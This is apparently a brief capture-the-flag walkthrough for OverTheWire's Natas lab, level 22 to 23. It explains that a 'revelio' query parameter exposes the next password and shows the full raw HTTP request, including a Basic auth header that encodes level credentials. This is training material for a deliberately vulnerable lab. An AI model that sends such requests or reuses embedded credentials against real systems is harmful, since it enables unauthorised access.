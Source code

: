 # Level 22 -> Level 23

having revelio as GET query parameter will reveal the password  

```
GET /?revelio HTTP/1.1
Host: natas22.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyMjpkOHJ3R0JsMFhzbGczYjc2dWgzZkViU2xuT1VCbG96eg==
Connection: keep-alive
Cookie: PHPSESSID=i5fk3krcnm5llf4c03q8ri8i39
Upgrade-Insecure-Requests: 1
```



